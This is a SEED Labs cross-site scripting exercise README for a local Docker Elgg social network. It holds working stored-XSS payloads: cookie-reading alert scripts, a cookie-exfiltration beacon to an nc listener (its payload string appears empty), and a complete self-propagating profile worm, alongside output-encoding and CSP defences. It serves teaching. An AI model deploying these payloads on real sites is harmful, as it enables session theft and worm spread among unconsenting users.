


# Lab 02 — Cross-Site Scripting (XSS) Attack Lab

**Implementation Type**: Official SEED source adapted for Docker

Official lab manual: https://seedsecuritylabs.org/Labs_20.04/Web/Web_XSS_Elgg/
Textbook: Chapter 11 — Cross-Site Scripting Attack (*Computer & Internet Security*, 2nd Ed., Prof. Wenliang Du)
Lecture Sync Sitemap: [SEED Lecture & Reference Sitemap](../../docs/lectures-and-references.md#3-lab-02--cross-site-scripting-xss)
CWE Reference: [CWE-79: Improper Neutralization of Input During Web Page Generation](https://cwe.mitre.org/data/definitions/79.html)

For authorized educational use only.

> **HOST BROWSER ROUTING NOTICE**: Access the application in host browsers via `http://localhost:10081` (or `http://www.seed-server.com:10081` if `127.0.0.1 www.seed-server.com` is in your host hosts file). Do not use internal container IP `10.9.0.5` directly in host browsers.  
> **CONTAINER COMMAND FALLBACKS**: If `bash` is missing: `docker exec -it elgg-10.9.0.5 sh`. If `ip` is missing: `hostname -i`. If `ss` is missing: `netstat -tlnp`.

---

---

## 📖 The Cross-Site Scripting Story: The Elgg Social Worm

### Act 1 — The Social Network Profile
* The social network **`http://www.seed-server.com`** (`http://localhost:10081`) allows users like **Alice**, **Boby**, **Charlie**, and **Samy** to share posts, maintain friends lists, and fill in "About Me" profile descriptions.
* When a user saves their profile, the content is stored in the MySQL database (`elgg_seed`).
* When visitors view that profile, the Elgg web server fetches the stored description and renders it inside the HTML page.

### Act 2 — The Vulnerability (Unsanitized Output Rendering)
* The application takes user-supplied bio text and echoes it directly into the HTML document **without output encoding** (e.g. `echo $bio` instead of `echo htmlspecialchars($bio)`).
* If an attacker injects `<script>` tags, the browser cannot distinguish between trusted platform code and malicious payload code.
* The script executes with the full permissions of whoever views the profile!

### Act 3 — The Exploitation Tasks (As per Official SEED Lab)



---

## 🗄️ Database Forensics: Live Inspection

Inspect the MySQL container (`mysql-10.9.0.6-xss`) to observe stored XSS payloads and relationships:

```powershell
# 1. Inspect user profiles metadata (bio/description)
docker exec mysql-10.9.0.6-xss mysql -u seed -pdees elgg_seed -e "SELECT entity_guid, name, value FROM elgg_metadata WHERE name IN ('description', 'briefdescription');"

# 2. Inspect friends relationship table
docker exec mysql-10.9.0.6-xss mysql -u seed -pdees elgg_seed -e "SELECT guid_one, relationship, guid_two FROM elgg_entity_relationships WHERE relationship = 'friend';"
```

---

## 🧪 Official Lab Tasks Walkthrough

### Task 1 — Alert Window Proof-of-Concept
* **Target:** Samy's "Brief Description" or "About Me" field.
* **Payload:** `<script>alert('XSS');</script>`
* **Result:** When Alice visits Samy's profile, an alert box pops up showing `XSS`.

### Task 2 — Session Cookie Inspection
* **Payload:** `<script>alert(document.cookie);</script>`
* **Result:** The alert box reveals the victim's live session token (`elggperm`), demonstrating that the script has full access to the victim's credentials.

### Task 3 — Stealing Cookies via Exfiltration Beacon
* **Payload:** 
  ```html
  <script>
    document.write('');
  </script>
  ```
* **Result:** The victim's browser silently sends their cookie to the attacker's listening port (`nc -l 5555`).

### Task 4 — Becoming the Victim's Friend (XSS Forgery)
* **Payload:** An AJAX request embedded in Samy's profile that auto-sends an `action/friends/add` request with Samy's GUID (`59`) whenever anyone views his page.

### Task 5 — Modifying the Victim's Profile (Profile Tampering)
* **Payload:** An AJAX request that sends a `POST /action/profile/edit` with `description=Samy is my Hero!` and the victim's GUID.

### Task 6 — Writing a Self-Propagating XSS Worm (The Samy Worm)
* **Mechanism:** The malicious JavaScript reads its own code from the current page (`document.getElementById('worm').innerHTML`) and includes it in the profile update AJAX payload.
* **Result:** When Alice visits Samy, her profile is infected with the worm. When Boby visits Alice, Boby is infected. The worm spreads exponentially across the entire network.

### Task 7 — Output Sanitization & Encoding
* Use `htmlspecialchars($str, ENT_QUOTES, 'UTF-8')` to convert `<` into `&lt;` and `>` into `&gt;`, neutralizing script execution.

### Task 8 — Content Security Policy (CSP) Experiments
* Visit **`http://www.example32.com`** to test nonce-based CSP directives and whitelist policies.

---

## Container Architecture

```
HOST MACHINE
  |
  | Hosts file: www.seed-server.com -> 127.0.0.1 (or localhost:10081)
  | Port mapping: host:10081 -> container:80
  |
  Docker Bridge Network: net-10.9.0.0-xss  (10.9.0.0/24)
    |
    +---- elgg-10.9.0.5       (Apache + PHP + Elgg social network app)
    |         |
    |         | MySQL connection to 10.9.0.6:3306
    |         |
    +---- mysql-10.9.0.6-xss  (MySQL 8.0 + elgg database with user profiles)
```



Attack flow:
```
Samy (attacker) logs in -> edits "About Me" -> saves XSS payload to database
Alice (victim) logs in  -> views Samy's profile -> browser loads stored script
Browser executes script -> reads Alice's session cookie or performs actions as Alice
```

---

## Layer 1 — Docker Commands (host terminal)

### Start the Lab

```bash
# Change into the XSS lab directory (contains docker-compose.yml)
cd labs/02-xss

# Windows PowerShell: builds images from Dockerfiles and starts containers in detached mode
.\start.ps1

# Linux / WSL2 bash equivalent
./start.sh

# Manual equivalent — same as what the start scripts run internally
# -d = detached (runs in background), --build = rebuild images from Dockerfiles
docker compose up -d --build
```

### Verify Container Status

```bash
# List all containers managed by this docker-compose.yml, with status and port mappings
# Both elgg-10.9.0.5 and mysql-10.9.0.6-xss must show STATUS 'Up'
docker compose ps

# Deep-inspect the Elgg container — shows IP address, mounts, network, env vars
docker inspect elgg-10.9.0.5
```

### Watch Logs from Host

```bash
# Stream Elgg/Apache logs from your host terminal without entering the container
# -f = follow (live tail). Press Ctrl+C to stop.
docker compose logs -f elgg

# Stream MySQL initialization and query logs
# Useful to confirm the database seeded correctly on first start
docker compose logs -f mysql
```

---

## Layer 2 — Linux Commands (inside the container)

### Open Bash Shell Inside the Web Container

```bash
# Open an interactive (-i) terminal (-t) bash shell inside the running Elgg container
# Your prompt changes to root@elgg-10.9.0.5:/# once inside
docker exec -it elgg-10.9.0.5 bash
```

### Establish Identity and Network Context

```bash
# Print the current user — containers run as root by default
whoami

# Print the container's hostname — confirms you're inside the right container
hostname

# Show all network interfaces and their IP addresses
# Look for eth0 with inet 10.9.0.5/24 — this is the container's internal IP
ip addr show
```

### Inspect Application Files

```bash
# Move to the Apache web root — all PHP files served to browsers live here
cd /var/www/html

# List files with permissions and sizes
# Look for profile-related PHP files that output user data
ls -la

# Search for the vulnerable output pattern: unescaped echo of profile_about field
# This is where XSS payloads escape into the HTML response stream
grep -n "profile_about\|echo\|print" index.php
```

### View Real-Time Requests

```bash
# Stream Apache access log — every browser request appears here instantly
# Watch for GET /profile/samy when Alice loads the attacker's profile page
tail -f /var/log/apache2/access.log
```

### Exit Container

```bash
# Return from the container shell back to your host terminal
exit
```

---

## Layer 3 — Security Tasks

### Configure Hostname

Windows (PowerShell as Administrator):
```powershell
Add-Content "C:\Windows\System32\drivers\etc\hosts" "127.0.0.1   www.seed-server.com"
```

Linux / WSL2:
```bash
echo "127.0.0.1   www.seed-server.com" | sudo tee -a /etc/hosts
```

### Access the Application

```
http://localhost:10081
http://www.seed-server.com:10081   (with hosts file)
```

---

## Stop and Reset

```bash
docker compose down
docker compose down -v
```

---

## § Complete Demonstration Walkthrough

Follow these steps in order from a cold machine. Every command is shown in both **PowerShell** (Windows) and **raw Docker / bash** equivalents.

**Default lab credentials:**
| Username | Password    | Role     |
|----------|-------------|----------|
| admin    | seedadmin   | Admin    |
| alice    | seedalice   | Victim   |
| samy     | seedsamy    | Attacker |
| charlie  | seedcharlie | User     |

---

### Step 0 — Verify Docker Desktop is Running

**PowerShell:**
```powershell
docker info | Select-String "Server Version"
```

**Raw Docker:**
```bash
docker info | grep "Server Version"
```

> **Expected:** `Server Version: 27.x.x`
> **If it fails:** Open Docker Desktop from the Start menu, wait ~30 seconds, then re-run.

---

### Step 1 — Navigate to the Lab and Start Containers

**PowerShell:**
```powershell
cd C:\path\to\seed-web-security-docker\labs\02-xss
.\start.ps1
```

**Raw Docker Compose (equivalent):**
```bash
cd labs/02-xss
docker compose up -d --build
```

> On first run this builds the Elgg image and seeds the MySQL database — takes ~1–2 minutes. Subsequent starts complete in seconds.

---

### Step 2 — Verify Containers Are Running

**PowerShell / Raw Docker (identical):**
```bash
docker compose ps
```

**Expected output:**
```
NAME                IMAGE                    STATUS    PORTS
elgg-10.9.0.5       seed-image-www-xss-elgg  Up        0.0.0.0:10081->80/tcp
mysql-10.9.0.6-xss  seed-image-mysql-xss-..  Up        3306/tcp
```

If a container shows `Exiting`, check logs:
```bash
docker compose logs elgg
docker compose logs mysql
```

**Inspect Elgg container IP:**
```bash
docker inspect elgg-10.9.0.5 | grep "IPAddress"
# Expected: "IPAddress": "10.9.0.5"
```

---

### Step 3 — Configure the Hosts File (One-Time Setup)

**PowerShell (run as Administrator):**
```powershell
Add-Content "C:\Windows\System32\drivers\etc\hosts" "127.0.0.1   www.seed-server.com"
```

**Verify:**
```powershell
Get-Content "C:\Windows\System32\drivers\etc\hosts" | Select-String "seed-server"
```

**Raw bash (Linux/WSL2):**
```bash
echo "127.0.0.1   www.seed-server.com" | sudo tee -a /etc/hosts
```

> **Skip this?** Use `http://localhost:10081` everywhere instead of `http://www.seed-server.com:10081`.

---

### Step 4 — Open the Application and Log In as Samy (Attacker)

Open your browser:
```
http://localhost:10081
```
or:
```
http://www.seed-server.com:10081
```

**What you should see:** The Elgg social network login page.

1. Log in with: **Username:** `samy` / **Password:** `seedsamy`
2. After login, click **Samy** (top-right profile menu) → **Edit Profile**.
3. You are now on Samy's profile edit page. You should see editable fields including **About Me**.

---

### Step 5 — Task 3: Inject a Basic XSS Payload (Stored XSS)

**Goal:** Store a JavaScript payload in Samy's profile. Any user who views Samy's profile will execute the script in their own browser session.

1. In the **About Me** field, click the **"Edit HTML"** or **"<>"** button to switch to raw HTML mode.
2. Clear the existing content and paste:
   ```html
   <script>alert(document.cookie)</script>
   ```
3. Click **Save**.

**Verify the payload is stored in the database:**
```bash
docker exec -it mysql-10.9.0.6-xss mysql -u root -pseedubuntu elgg -e \
  "SELECT guid, value FROM elgg_metadata WHERE name='description' AND entity_guid=59 LIMIT 1\G"
```
> You should see the raw `<script>` tag stored unescaped in the database.

---

### Step 6 — Switch to Alice (Victim) and Trigger the Attack

1. Open a **new browser window (or Incognito tab)** so you have a separate session.
2. Go to `http://localhost:10081` and log in as **Alice** (`alice` / `seedalice`).
3. Navigate to Samy's profile. Click **Members** in the top menu → find **Samy** → click his name.

**What happens:**
- The Elgg PHP server reads Samy's `About Me` from MySQL and echoes it directly into the HTML response without escaping.
- Alice's browser receives `<script>alert(document.cookie)</script>` as part of the page HTML.
- The browser executes the script — a popup appears showing **Alice's session cookie** (e.g., `Elgg=abc123...`).

**Expected outcome:** An alert dialog box appears in Alice's browser containing her session token. An attacker could exfiltrate this to take over her account.

---

### Step 7 — Watch Requests in Real Time

Open a second terminal and stream Apache logs from the host:

**PowerShell / Raw Docker:**
```bash
docker compose logs -f elgg
```

**Or inside the container:**
```bash
docker exec -it elgg-10.9.0.5 tail -f /var/log/apache2/access.log
```

> When Alice views Samy's profile, you will see a `GET /profile/samy 200` entry — the single page load that delivers the malicious payload to her browser.

---

### Step 8 — Task 4: Self-Propagating XSS Worm (Concept)

To demonstrate worm behaviour, update Samy's About Me with a payload that also copies itself to any viewer's own profile:

1. Switch back to **Samy's** browser session.
2. In **Edit Profile → About Me** (HTML mode), paste:
   ```html
   <script id="worm">
     var headerTag = "<script id=\"worm\">";
     var jsCode = document.getElementById("worm").innerHTML;
     var tailTag = "</" + "script>";
     var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

     var sendurl = "http://www.seed-server.com:10081/action/profile/edit";
     var desc = "&description=" + wormCode + "&accesslevel[description]=2";
     var samyGuid = 59;
     var url = sendurl + "?guid=" + samyGuid + desc;

     var Ajax = new XMLHttpRequest();
     Ajax.open("GET", url, true);
     Ajax.send();
   </script>
   ```
3. Save the profile.
4. Log in as **Alice** and view Samy's profile.

**Expected outcome:** Alice's own profile `About Me` field is now also updated to contain the worm script — without Alice's knowledge or consent.

---

### Step 9 — Defense: Apply Output Encoding

**Goal:** Fix the vulnerability by HTML-escaping all user-supplied content before rendering.

**Step 9a — Enter the Elgg container:**
```bash
docker exec -it elgg-10.9.0.5 bash
```

**Step 9b — Find the rendering code:**
```bash
grep -rn "profile_about\|getBody\|echo" /var/www/html/mod/profile/ | head -20
```

**Step 9c — Wrap output in `htmlspecialchars`:**

Locate the line that echoes the profile field (it will look like `echo $entity->description`) and wrap it:
```php
// BEFORE (vulnerable):
echo $entity->description;

// AFTER (secure):
echo htmlspecialchars($entity->description, ENT_QUOTES, 'UTF-8');
```

**Step 9d — Exit and re-test:**
```bash
exit
```

1. Log in as Alice and visit Samy's profile again.
2. **Expected outcome:** The browser now displays the literal text `<script>alert(document.cookie)</script>` on the page — it is visible as text, not executed as code.

---

### Step 10 — Teardown

**Stop containers (preserves database):**

**PowerShell:**
```powershell
docker compose down
```

**Raw Docker:**
```bash
docker compose down
```

**Full reset (wipes all data):**
```bash
docker compose down -v
```

**Verify stopped:**
```bash
docker ps | grep xss
# Expected: no output
```
